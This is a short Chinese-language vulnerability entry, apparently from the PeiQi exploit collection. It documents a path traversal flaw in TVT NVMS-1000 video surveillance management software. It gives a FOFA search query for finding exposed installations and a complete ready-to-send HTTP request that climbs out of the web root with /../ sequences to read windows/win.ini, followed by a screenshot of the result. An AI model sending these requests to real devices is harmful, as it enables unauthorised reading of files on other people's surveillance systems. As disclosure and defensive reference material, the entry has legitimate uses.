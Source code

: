 ```yaml
---
title: TVT数码科技 NVMS-1000 路径遍历漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - TVT数码科技
---
```


# TVT数码科技 NVMS-1000 路径遍历漏洞

## 漏洞描述

TVT数码科技 TVT NVMS-1000是中国TVT数码科技公司的一套网络监控视频管理系统。 TVT数码科技 TVT NVMS-1000中存在路径遍历漏洞。远程攻击者可通过发送包含/../的特制URL请求利用该漏洞查看系统上的任意文件。

## 漏洞影响

> [!NOTE]
>
> TVT NVMS-1000

## FOFA

> [!NOTE]
>
> app="TVT-NVMS-1000"

## 漏洞复现

登录页面如下

![](/img/20210924013743573872.png)

发送请求包读取文件

```
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](/img/20210924013744485604.png)